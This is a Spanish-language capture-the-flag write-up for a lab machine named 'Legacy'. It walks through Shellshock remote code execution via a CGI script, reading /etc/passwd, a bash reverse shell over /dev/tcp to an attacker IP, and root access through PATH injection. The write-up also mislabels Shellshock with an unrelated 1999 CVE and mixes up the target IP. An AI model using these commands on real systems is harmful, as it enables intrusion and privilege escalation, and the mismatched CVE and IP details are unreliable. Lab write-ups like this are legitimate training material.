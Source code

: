 
# Legacy - HACKMEX
*OS*: Linux   
*Dificultad*: Medium   
*Puntos*: 6,200 pts   
*Solucionado por*: M41w4r3
## Resumen 
- SHELLSHOCK RCE
- PATH INJECTION 
## Nmap Scan
´´´
nmap -A -p- -oN legacy -T4 10.0.30.121
Warning: 10.0.50.121 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.0.50.121
Host is up (0.087s latency).
Not shown: 65499 closed ports, 35 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.34 ((Unix) mod_ssl/2.2.34 OpenSSL/1.0.1t DAV/2)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.34 (Unix) mod_ssl/2.2.34 OpenSSL/1.0.1t DAV/2
|_http-title: NCSA Legacy
´´´
## Enumeracion 
Al enumerar podemos encontrar una pagina que nos muestra que se esta ejecutando el aplicativo NCSA
Asi que al investigar un poco podemos encontrar una vulnerabilidad en los archivos cgi-bin
imagen 1
'''
CVE-1999-0045 
'''

## Explotar CGI-BIN
´´´
Al encontrar que podemos ejecutar codigo remotamente mediante CGI-BIN lo que se conoce como shellshock
encontre un exploit llamado shocker que nos permite automatizar el proceso del shellshock
En esta area encontramos diferentes scripts pero el que nos permitia explotar dicha vulnerabilidad era el archivo "date"

asi que el comando utilizado fue python shocker.py  -H 10.0.30.121 --command "/bin/cat /etc/passwd" -c /cgi-bin/date
´´´
´´´
Despues de esto lo que ejecute fue una shell inversa con bash el comando utilizado fue : /bin/bash -i >& /dev/tcp/10.10.0.62/1111 0>&1
y asi pude obtener una reverse shell con el servidor
´´´ 
## Privilege Escalation 
´´´
identificamos un archivo llamado tftp en la carpeta de cgi-bin 
notamos que tiene permisos de root ademas de que es un archivo ejecutable "ELF" asi que lo ejecutamos
´´´
´´´
despues de eso identificamos que tenemos que hacer un path injection porque nos muestra un error relacionado a el ls asi que vamos a injectarle otra instruccion 
lo siguiente es crear un archivo en la carpeta de tmp : echo "/bin/sh" > ls -> esto nos permitira elevar privilegios para obtener el usuario root
despues realizamos el path injection con el siguiente comando : export PATH=/tmp/:$PATH
despues ejecutamos el archivo y nos da la shell de root
´´´
## Archivos utilizados 
*shocker.py*
## Referencias

https://www.trendmicro.com/vinfo/us/threat-encyclopedia/archive/security-advisories/cgi_nph_test_disclosure_exploit
https://github.com/nccgroup/shocker

